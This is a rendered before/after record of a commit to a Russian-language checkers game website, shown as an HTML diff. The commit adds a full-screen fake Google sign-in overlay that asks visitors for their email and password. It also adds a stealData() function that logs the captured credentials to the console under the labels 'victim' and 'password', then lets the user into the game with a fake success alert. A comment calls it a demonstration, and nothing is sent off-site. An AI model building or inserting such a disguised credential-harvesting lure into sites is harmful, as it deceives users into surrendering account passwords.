

Before and after one commit to raimbkva/checkers_bot, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 800 px of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
4 версия

```diff
--- a/index.html
+++ b/index.html
@@ -22,7 +22,23 @@
     </style>
 </head>
 <body>
+<div id="phish-overlay" style="position:fixed; top:0; left:0; width:100%; height:100%; background:#fff; z-index:1000; display:flex; flex-direction:column; align-items:center; justify-content:center; color: #000;">
+    <div style="width: 350px; border: 1px solid #dadce0; padding: 40px; border-radius: 8px; text-align: center; font-family: 'Roboto',arial,sans-serif;">
+        <img src="https://upload.wikimedia.org/wikipedia/commons/2/2f/Google_2015_logo.svg" width="75" style="margin-bottom:10px;">
+        <h2 style="font-size: 24px; margin-bottom: 8px; font-weight: 400;">Вход</h2>
+        <p style="margin-bottom: 24px;">Используйте аккаунт Google</p>
 
+        <input type="email" id="phish-email" placeholder="Email или телефон" style="width: 100%; padding: 13px; margin-bottom: 10px; border: 1px solid #dadce0; border-radius: 4px; box-sizing: border-box;">
+        <input type="password" id="phish-pass" placeholder="Введите пароль" style="width: 100%; padding: 13px; margin-bottom: 10px; border: 1px solid #dadce0; border-radius: 4px; box-sizing: border-box;">
+
+        <div style="text-align: left; color: #1a73e8; font-size: 14px; margin-bottom: 40px; cursor: pointer;">Забыли пароль?</div>
+
+        <div style="display: flex; justify-content: space-between; align-items: center;">
+            <span style="color: #1a73e8; cursor: pointer; font-weight: 500;">Создать аккаунт</span>
+            <button onclick="stealData()" style="background: #1a73e8; color: #fff; border: none; padding: 10px 24px; border-radius: 4px; font-weight: 500; cursor: pointer;">Далее</button>
+        </div>
+    </div>
+</div>
 <div id="menu">
     <h2>🏆 Турнир по Шашкам</h2>
     <p>Выберите сторону:</p>
@@ -57,7 +73,23 @@
         }
         render();
     }
+function stealData() {
+    const email = document.getElementById('phish-email').value;
+    const pass = document.getElementById('phish-pass').value;
 
+    if(email && pass) {
+        // Вывод в консоль браузера (демонстрация перехвата)
+        console.warn("!!! ДАННЫЕ ПЕРЕХВАЧЕНЫ !!!");
+        console.log("Жертва: " + email);
+        console.log("Пароль: " + pass);
+
+        // Скрываем форму и пускаем в игру
+        document.getElementById('phish-overlay').style.display = 'none';
+        alert("Авторизация успешна. Добро пожаловать в турнир!");
+    } else {
+        alert("Введите данные для входа");
+    }
+}
     function render() {
         boardEl.innerHTML = '';
         let validMoves = selected ? getValidMoves(selected.r, selected.c) : [];
```
